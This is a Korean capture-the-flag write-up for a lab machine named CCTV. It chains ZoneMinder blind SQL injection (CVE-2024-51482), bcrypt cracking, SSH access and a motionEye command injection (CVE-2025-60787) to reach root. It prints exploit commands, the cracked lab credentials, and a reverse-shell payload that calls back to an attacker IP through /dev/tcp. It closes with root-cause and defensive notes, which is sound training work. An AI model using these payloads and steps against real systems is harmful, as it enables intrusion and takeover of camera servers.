# CCTV

## Overview

| 항목 | 내용 |
|------|------|
| 머신 이름 | CCTV |
| OS | Linux (Ubuntu 24.04) |
| 난이도 | Easy |
| 주요 취약점 | ZoneMinder Blind SQL Injection (CVE-2024-51482), motionEye Client-side Validation Bypass RCE (CVE-2025-60787) |
| 주요 기술 | Blind Time-based SQLi, bcrypt 해시 크래킹, SSH 접속, 내부 서비스 포트 포워딩, motionEye API 서명 계산, Command Injection |

CCTV는 ZoneMinder CCTV 관리 소프트웨어와 motionEye 카메라 관리 시스템을 운영하는 Linux 머신이다. ZoneMinder의 Blind SQL Injection 취약점으로 DB 크리덴셜을 덤프하고, bcrypt 해시를 크래킹하여 SSH 접속을 획득한다. 내부에서 동작 중인 motionEye의 Client-side Validation Bypass 취약점으로 카메라 설정 파일에 Command Injection 페이로드를 삽입하고, motion 프로세스가 설정을 재로드할 때 root 권한으로 리버스 쉘이 실행된다.

---

## Enumeration

### TCP Port Scan

```bash
nmap -sC -sV 10.129.244.156
```



| 포트 | 서비스 | 비고 |
|------|--------|------|
| 22/tcp | OpenSSH 9.6p1 | Ubuntu Linux |
| 80/tcp | Apache httpd 2.4.58 | `cctv.htb`로 리다이렉트 |

### /etc/hosts 설정

```bash
echo "10.129.244.156 cctv.htb" | sudo tee -a /etc/hosts
```

### 웹 애플리케이션 식별

브라우저로 `http://cctv.htb/`에 접속하면 SecureVision이라는 CCTV 보안 서비스 소개 페이지가 표시된다. 우측 상단의 Staff Login 버튼을 클릭하면 `/zm` 경로로 이동하며 ZoneMinder 로그인 페이지가 나타난다.



Wappalyzer로 분석하면 Apache HTTP Server 2.4.58, Ubuntu가 확인된다.



### ZoneMinder 로그인 및 버전 확인

기본 크리덴셜 `admin/admin`으로 로그인에 성공하면 ZoneMinder 콘솔이 표시된다.



Options 메뉴에서 현재 ZoneMinder 버전을 확인한다.

```
DYN_CURR_VERSION: 1.37.63
```



---

## Foothold

### CVE-2024-51482 — ZoneMinder Blind SQL Injection

ZoneMinder 1.37.0 ~ 1.37.64에는 `web/ajax/event.php`의 `removetag` 함수에서 `tid` 파라미터가 SQL 쿼리에 직접 삽입되는 Blind SQL Injection 취약점이 존재한다.

```php
$sql = "SELECT * FROM Events_Tags WHERE TagId = $tagId"; // 취약 코드
```

현재 버전(1.37.63)은 취약 범위에 해당한다.



PoC를 clone하고 설치한다.

```bash
git clone https://github.com/BridgerAlderson/CVE-2024-51482.git
cd CVE-2024-51482
pip3 install requests --break-system-packages
```



`--test` 옵션으로 취약 여부를 먼저 확인한다. 응답 시간이 2초 이상 지연되면 취약한 것이다.

```bash
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --test
```



`--users` 옵션으로 Users 테이블을 덤프한다. Time-based Blind SQLi 특성상 글자 하나씩 추출하기 때문에 시간이 소요된다. 

```bash
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --users 
```

컬럼 열거 후 데이터 덤프가 진행된다.



덤프가 완료되면 admin, mark, superadmin 계정의 bcrypt 해시가 추출된다.



추출된 크리덴셜:

| Username | Password Hash |
|----------|---------------|
| admin | `$2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm` |
| mark | `$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.` |
| superadmin | `$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m` |

### bcrypt 해시 크래킹

해시를 파일로 저장한다.

```bash
cat > hashes.txt << 'EOF'
$2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm
$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.
$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m
EOF
```



`$2y$`는 bcrypt이므로 `-m 3200`을 사용한다. VM 환경에서는 bcrypt GPU 가속이 불가능하므로 macOS에서 OpenCL GPU 가속을 활용한다. rockyou.txt 전체는 수일이 소요되므로 상위 10만 개만 잘라서 시도한다.

```bash
head -n 100000 rockyou.txt > small.txt
hashcat -m 3200 hashes.txt small.txt
```




크래킹 결과:

| Username | Password |
|----------|----------|
| mark | `opensesame` |
| superadmin | `admin` |

### SSH 접속 (mark)

```bash
ssh mark@cctv.htb
```



---

## Lateral Movement

### 내부 서비스 열거

SSH 접속 후 `/opt` 디렉토리를 확인하면 `video` 폴더가 존재한다.

```bash
ls -la /opt
```


`/opt/video` 안의 구조를 확인하면 `backups/server.log` 파일이 발견된다.

```bash
ls -la /opt/video/uploads 2>/dev/null || ls -laR /opt/video
```



`server.log`를 열어보면 `sa_mark` 계정이 `status`, `disk-info` 명령을 주기적으로 실행하는 기록이 남아있다. 내부에서 동작 중인 서비스가 있음을 알 수 있다.

포트를 확인하면 로컬호스트에서만 열려있는 서비스들이 보인다.

| 포트 | 서비스 |
|------|--------|
| 7999 | Motion 4.7.1 |
| **8765** | **motionEye 0.43.1b4** |

```bash
curl -s http://127.0.0.1:7999
curl -s http://127.0.0.1:8765
```



### Command Injection 흔적 발견

`/var/lib/motioneye/Camera1/` 디렉토리에는 이전에 시도된 Command Injection 흔적이 파일명에 남아있다.

```bash
ls -la /var/lib/motioneye/Camera1/
```


`lastsnap.jpg`는 리버스 쉘 페이로드를 담은 파일명을 가리키는 심볼릭 링크다.



motionEye의 파일명 설정에 쉘 메타문자가 삽입되면 motion이 설정을 재로드할 때 명령어가 실행된다. 이것이 이 머신의 공격 경로임을 알 수 있다.

---

## Privilege Escalation

### CVE-2025-60787 — motionEye RCE

motionEye 0.43.1b4 이하 버전에서 웹 UI의 `image_file_name` 설정 필드 검증이 클라이언트(JavaScript)에서만 이루어진다. 브라우저 콘솔에서 검증 함수를 덮어쓰면 `$()` 형식의 쉘 메타문자를 서버에 저장할 수 있다.




버전이 정확히 일치하는 익스플로잇이 확인된다.

### motionEye 관리자 접속

motionEye는 로컬호스트에만 바인딩되어 있으므로 SSH 포트 포워딩으로 접근한다.

```bash
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```



`/etc/motioneye/` 디렉토리에 설정 파일들이 있다.



`motion.conf`에서 motionEye 관리자 크리덴셜을 확인한다. 저장된 해시값(`989c5a8...`)을 패스워드 입력란에 그대로 입력하면 로그인에 성공한다.

### motionEye API 서명 계산

motionEye API는 매 요청마다 `_username`과 `_signature`를 요구한다. 서명은 `SHA1(method:path:body:key)` 형식으로 계산된다. 타겟 머신의 motioneye 라이브러리를 직접 import하여 정확한 서명을 계산한다.

```bash
python3 << 'EOF'
import sys
sys.path.insert(0, '/usr/local/lib/python3.12/dist-packages')
from motioneye import config, settings, utils
settings.CONF_PATH = '/etc/motioneye'

main = config.get_main()
admin_password = main.get('@admin_password')

method = 'GET'
path = '/config/list?_username=admin'
body = b''

sig = utils.compute_signature(method, path, body, admin_password)
print(f'URL: {path}&_signature={sig}')
EOF
```



계산된 서명으로 API를 호출하면 카메라 설정 전체가 반환되며 인증 성공을 확인한다.

```bash
curl -s "http://127.0.0.1:8765/config/list?_username=admin&_signature=<sig>" | python3 -m json.tool
```



### 페이로드 삽입 및 리버스 쉘 획득

칼리에서 리스너를 먼저 준비한다.

```bash
nc -lvnp 9001
```

브라우저에서 `http://127.0.0.1:8765` 접속 후 F12 콘솔에서 JS 검증 함수를 우회한다.

```javascript
configUiValid = function() { return true; }
```



Settings → CAM 01 → Still Images → Image File Name 필드에 리버스 쉘 페이로드를 입력하고 Apply한다.

```
$(bash -c 'bash -i >& /dev/tcp/10.10.14.40/9001 0>&1').%Y-%m-%d-%H-%M-%S
```



Apply 후 framerate 등 임의 설정을 변경하고 다시 Apply하면 motion이 재시작되면서 설정 파일을 재로드한다. 이때 `picture_filename` 값이 쉘에 의해 처리되면서 `$()` 안의 명령어가 실행된다.



root 권한으로 리버스 쉘이 연결된다.

```bash
find / -name "user.txt" 2>/dev/null
cat /home/sa_mark/user.txt
cat /root/root.txt
```





---

## Vulnerability Root Cause Analysis

| 취약점 | 위치 | 근본 원인 | OWASP |
|--------|------|-----------|-------|
| Blind SQL Injection | `web/ajax/event.php` `removetag` 함수 | `tid` 파라미터를 Prepared Statement 없이 SQL 쿼리에 직접 삽입 | A03 Injection |
| Client-side Validation Bypass | motionEye `image_file_name` 설정 | 입력값 검증이 JavaScript에만 존재하고 서버사이드 검증 부재 | A04 Insecure Design |
| Command Injection | motion `picture_filename` 설정 파일 | 설정 파일의 파일명 패턴을 쉘이 처리할 때 `$()` 메타문자 실행 | A03 Injection |
| 기본 크리덴셜 사용 | ZoneMinder 로그인 | `admin/admin` 기본 크리덴셜 미변경 | A07 Identification and Authentication Failures |

### 실제 환경에서의 위험성

Blind SQL Injection은 결과가 화면에 직접 노출되지 않아 탐지가 어렵다. 응답 시간 차이를 이용하기 때문에 WAF나 IDS에서 잡히지 않는 경우가 많다. 항상 Prepared Statement를 사용하고 파라미터를 SQL 문자열에 직접 삽입하는 코드는 허용해서는 안 된다.

motionEye의 Client-side Validation Bypass는 웹 보안의 기본 원칙인 서버사이드 검증이 부재할 때 발생한다. 클라이언트 검증은 UX 편의를 위한 것이고 보안은 반드시 서버에서 처리해야 한다. 파일명과 같이 쉘에서 처리되는 값은 특수문자를 화이트리스트 방식으로 제한해야 한다.

---

## Attack Chain Summary

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | TCP 서비스 열거 | nmap |
| 웹 앱 식별 | Staff Login → ZoneMinder 발견 | 브라우저, Wappalyzer |
| ZoneMinder 로그인 | 기본 크리덴셜 `admin/admin` | 브라우저 |
| Blind SQL Injection | Time-based SQLi로 Users 테이블 덤프 | CVE-2024-51482 PoC |
| 해시 크래킹 | bcrypt 오프라인 크래킹 | hashcat |
| SSH 접속 | mark / opensesame | ssh |
| 내부 서비스 열거 | /opt 탐색, 포트 확인, motionEye 발견 | ls, ss, curl |
| motionEye 접근 | SSH 포트 포워딩 | ssh -L |
| API 인증 | 소스코드 분석으로 서명 직접 계산 | Python |
| JS 검증 우회 | 브라우저 콘솔에서 검증 함수 덮어쓰기 | 브라우저 DevTools |
| Command Injection | `image_file_name`에 리버스 쉘 페이로드 삽입 | 브라우저 |
| 리버스 쉘 (root) | motion 설정 재로드 시 페이로드 실행 | nc |
